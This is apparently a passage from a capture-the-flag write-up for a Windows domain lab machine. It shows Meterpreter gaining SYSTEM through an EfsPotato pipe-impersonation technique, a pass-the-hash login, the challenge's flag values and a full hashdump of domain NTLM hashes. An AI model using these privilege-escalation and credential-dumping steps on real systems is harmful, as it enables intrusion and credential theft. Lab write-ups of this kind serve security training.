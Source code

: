 ```c
meterpreter > getsystem
...got system via technique 6 (Named Pipe Impersonation (EFSRPC variant - AKA EfsPotato)).
```

```c
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

With `hashdump` we dumped all the `hashes` and used `Pass the Hash (PtH)` to login as `Administrator` to grab the `user.txt` and the `root.txt`.

## user.txt

```c
*Evil-WinRM* PS C:\Users\John.D\Desktop> type user.txt
3ba51a9a5920f863df11721de84ee33c
```

## root.txt

```c
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
7d1122adc0d5ef02e4a6f09480198e34
```

## Post Exploitation

```c
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e63413bab01a0b8820983496c0be3a9a:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:41c4599e48661690fa6538fe96d366de:::
John.D:1103:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
George.A:1104:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
WAO:1106:aad3b435b51404eeaad3b435b51404ee:da49675b9d3d5e403fa3c1c6b5c3f5a2:::
hana:1107:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
karma.watterson:1108:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
Alice.Z:1109:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
Steven.P:1110:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
Karol.J:1111:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
Leon.K:1112:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
A.Crouz:1113:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
Kai.K:1114:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
Arnold.G:1115:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
Kareem.A:1116:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
Lisa.K:1117:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
Jakken.C:1118:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
Nya.R:1119:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
Brose.W:1120:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
Choco.L:1121:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
Rose.L:1122:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
Emma.H:1123:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
C.Freez:1124:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
Martin.T:1127:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
William.B:1132:aad3b435b51404eeaad3b435b51404ee:a910f374f7e63717f112fb4e40122a7c:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:2522eb84c83b5e9ffde18045be5b9e59:::
WS-3$:1134:aad3b435b51404eeaad3b435b51404ee:b51c7661e82feb147afffb324d91af34:::
GMSA-PClient01$:1140:aad3b435b51404eeaad3b435b51404ee:e5799ed7c404dead98cbe2fc610b9b1f:::
WS-1$:1141:aad3b435b51404eeaad3b435b51404ee:c23b84b12d7f2c758e4ca7da5b053c81:::
WS-2$:1142:aad3b435b51404eeaad3b435b51404ee:bfd5d3a7883cb6e0a63a29d0cdfd430c:::
WS-4$:1143:aad3b435b51404eeaad3b435b51404ee:c591cf4bcad09cc0eb5ba2b54e58b217:::
WS-5$:1144:aad3b435b51404eeaad3b435b51404ee:7427ac9458a4a39f5076ab080b1329b3:::
LAB-2$:1145:aad3b435b51404eeaad3b435b51404ee:93b3bf5940c921c6f072961d10c3f43f:::
```